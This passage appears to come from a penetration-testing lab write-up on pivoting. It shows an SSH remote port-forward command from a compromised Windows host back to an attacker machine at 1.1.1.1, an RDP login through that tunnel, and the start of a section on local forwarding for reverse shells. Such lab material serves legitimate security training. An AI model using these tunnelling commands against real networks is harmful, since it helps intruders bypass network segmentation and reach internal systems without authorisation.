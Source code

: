 A valid question that might pop up by this point is why we need port forwarding if we have compromised PC-1 and can run an RDP session directly from there. The answer is simple: in a situation where we only have console access to PC-1, we won't be able to use any RDP client as we don't have a GUI. By making the port available to your attacker's machine, you can use a Linux RDP client to connect. Similar situations arise when you want to run an exploit against a port that can't be reached directly, as your exploit may require a specific scripting language that may not always be available at machines you compromise along the way.

Referring to the previous image, to forward port 3389 on the server back to our attacker's machine, we can use the following command on PC-1:

```
C:\> ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N
```

This will establish an SSH session from PC-1 to `1.1.1.1` (Attacker PC) using the `tunneluser` user.

Since the `tunneluser` isn't allowed to run a shell on the Attacker PC, we need to run the `ssh` command with the `-N` switch to prevent the client from requesting one, or the connection will exit immediately. The `-R` switch is used to request a remote port forward, and the syntax requires us first to indicate the port we will be opening at the SSH server (3389), followed by a colon and then the IP and port of the socket we'll be forwarding (3.3.3.3:3389). Notice that the port numbers don't need to match, although they do in this example.

The command itself won't output anything, but the tunnel will depend on the command to be running. Whenever we want, we can close the tunnel by pressing CTRL+C as with any other command.

Once our tunnel is set and running, we can go to the attacker's machine and RDP into the forwarded port to reach the server:

```
munra@attacker-pc$ xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword
```

### <font color="#FFA500">SSH Local Port Forwarding</font>

**Local port forwarding** allows us to "pull" a port from an SSH server into the SSH client. In our scenario, this could be used to take any service available in our attacker's machine and make it available through a port on PC-1. That way, any host that can't connect directly to the attacker's PC but can connect to PC-1 will now be able to reach the attacker's services through the pivot host.

Using this type of port forwarding would allow us to run reverse shells from hosts that normally wouldn't be able to connect back to us or simply make any service we want available to machines that have no direct connection to us.

<img src="/assets/images/THM/Lateral%20Movement%20and%20Pivoting/14.png" width="80%">
